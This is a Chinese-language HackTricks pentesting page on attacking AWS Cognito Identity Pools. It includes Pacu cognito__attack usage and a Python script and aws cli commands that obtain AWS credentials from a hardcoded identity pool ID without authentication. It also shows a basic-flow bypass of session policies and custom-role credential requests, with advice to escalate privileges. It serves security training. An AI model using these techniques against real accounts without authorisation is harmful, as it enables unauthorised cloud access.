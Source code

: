 # Cognito Identity Pools

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本信息

身份池通过使用户能够**获取临时凭证**，在其中发挥着至关重要的作用。这些凭证对于访问各种AWS服务至关重要，包括但不限于Amazon S3和DynamoDB。身份池的一个显著特点是它们支持匿名访客用户和多种身份提供者进行用户身份验证。支持的身份提供者包括：

* Amazon Cognito用户池
* 社交登录选项，如Facebook、Google、使用Amazon登录和使用Apple登录
* 符合OpenID Connect (OIDC)的提供者
* SAML (安全声明标记语言)身份提供者
* 开发者认证身份
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

要生成身份池会话，您首先需要**生成身份 ID**。这个身份 ID 是**该用户会话的标识**。这些标识可以有多达 20 个数据集，可以存储多达 1MB 的键值对。

这对于**保持用户信息**（将始终使用相同的身份 ID）是**有用的**。

此外，服务**cognito-sync**是允许**管理和同步这些信息**（在数据集中，发送流中的信息和 SNS 消息等）的服务。

### Tools for pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)，AWS 利用框架，现在包括“cognito\_\_enum”和“cognito\_\_attack”模块，这些模块自动枚举帐户中的所有 Cognito 资产并标记弱配置、用于访问控制的用户属性等，并且还自动创建用户（包括 MFA 支持）和基于可修改自定义属性的权限提升、可用的身份池凭证、可假设的角色在 ID 令牌中等。

有关模块功能的描述，请参见[博客文章](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)的第 2 部分。有关安装说明，请参见主 [Pacu](https://github.com/RhinoSecurityLabs/pacu) 页面。

#### Usage

示例 cognito\_\_attack 用法，尝试在给定身份池和用户池客户端上创建用户和所有权限提升向量：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
示例 cognito\_\_enum 用法，以收集当前 AWS 账户中可见的所有用户池、用户池客户端、身份池、用户等：
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) 是一个用 Python 编写的 CLI 工具，实施对 Cognito 的不同攻击，包括不必要的账户创建和身份池升级。

#### 安装
```bash
$ pip install cognito-scanner
```
#### 使用
```bash
$ cognito-scanner --help
```
For more information check https://github.com/padok-team/cognito-scanner

## 访问 IAM 角色

### 未认证

攻击者需要知道的唯一信息是 **在 Cognito 应用中获取 AWS 凭证** 的 **身份池 ID**，并且这个 **ID 必须硬编码** 在 web/mobile **应用程序** 中以供使用。一个 ID 看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（它无法通过暴力破解获得）。

{% hint style="success" %}
通过创建的 **IAM Cognito 未认证角色默认称为** `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

如果你发现一个硬编码的身份池 ID 并且它允许未认证用户，你可以通过以下方式获取 AWS 凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者你可以使用以下 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经身份验证的 cognito **用户无法拥有任何权限，即使通过策略分配了权限**。请查看以下部分。
{% endhint %}

### 增强与基本身份验证流程

上一部分遵循了 **默认增强身份验证流程**。此流程为生成的 IAM 角色会话设置了 **限制性** [**会话策略**](../../aws-basic-information/#session-policies)。该策略仅允许会话 [**使用此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使该角色可以访问其他服务）。

然而，如果 **身份池启用了“基本（经典）流程”**，则有一种方法可以绕过此限制，用户将能够使用该流程获取会话，而该会话 **将没有该限制性会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，则是因为**基本流程未启用（默认）**

`发生错误（InvalidParameterException），调用GetOpenIdToken操作时：未启用基本（经典）流程，请使用增强流程。`
{% endhint %}

拥有一组IAM凭证后，您应该检查[您拥有的访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住，**已认证用户**可能会被授予**不同的权限**，因此如果您可以**在应用程序内注册**，请尝试这样做并获取新凭证。
{% endhint %}

对于**访问身份池的已认证用户**，可能还有**角色**可用。

为此，您可能需要访问**身份提供者**。如果是**Cognito用户池**，也许您可以利用默认行为**自己创建新用户**。

{% hint style="success" %}
通过创建的**IAM Cognito已认证角色**默认称为`Cognito_<身份池名称>Auth_Role`
{% endhint %}

无论如何，**以下示例**假设您已经登录到用于访问身份池的**Cognito用户池**（不要忘记，其他类型的身份提供者也可以被配置）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令响应中获取identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在IdToken中，您可以找到用户因用户池组而拥有的角色
# 使用--custom-role-arn获取特定角色的凭证
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
可以**根据用户登录的身份提供者**或**用户**（使用声明）配置不同的IAM角色。因此，如果您通过相同或不同的提供者访问不同的用户，可能**值得登录并访问所有用户的IAM角色**。
{% endhint %}

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
